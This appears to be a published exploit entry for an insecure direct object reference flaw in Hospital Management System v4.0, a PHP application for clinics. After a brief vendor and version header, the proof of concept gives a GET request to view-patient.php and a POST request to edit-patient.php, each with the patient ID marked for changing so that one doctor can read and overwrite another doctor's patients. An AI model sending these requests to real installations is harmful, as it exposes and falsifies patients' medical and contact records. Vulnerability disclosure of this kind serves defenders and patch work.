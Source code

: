 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to look up and update the information of patient who is managed by other doctor(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /hospital/hms/doctor/view-patient.php?viewid=2(CHANGE HERE) HTTP/1.1
```

```
POST /hospital/hms/doctor/edit-patient.php?editid=2(CHANGE HERE) HTTP/1.1
...

patname=user1p&patcontact=111112&patemail=user1p%40test.com&gender=Male&pataddress=bbb&patage=20&medhis=0&submit=
```